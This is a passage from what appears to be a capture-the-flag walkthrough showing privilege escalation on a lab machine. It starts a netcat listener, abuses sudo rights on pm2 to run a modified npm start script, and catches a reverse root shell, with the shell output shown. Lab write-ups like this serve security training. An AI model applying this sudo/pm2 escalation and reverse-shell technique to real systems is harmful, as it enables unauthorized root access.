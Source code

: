 We save the file, and log in back as `ellie`. 
We also start a netcat listener on Kali

```
└─$ sudo nc -lvp 80                       
[sudo] password for kali: 
listening on [any] 80 ...
```

And we execute pm2 with the `start` script:

```
$ sudo pm2 start npm -- start
[PM2] Starting /usr/bin/npm in fork_mode (1 instance)
[PM2] Done.
```

Back in our Kali we got the shell as `root`:

```
└─$ sudo nc -lvp 80                       
[sudo] password for kali: 
listening on [any] 80 ...
172.16.118.131: inverse host lookup failed: Unknown host
connect to [172.16.118.132] from (UNKNOWN) [172.16.118.131] 56772
bash: cannot set terminal process group (35308): Inappropriate ioctl for device
bash: no job control in this shell
root@easypeasy:/var/www/html/app# id
id
uid=0(root) gid=0(root) groups=0(root)
root@easypeasy:/var/www/html/app# 
```

So now we can go to `/root` directory and get the `proof.txt` flag.
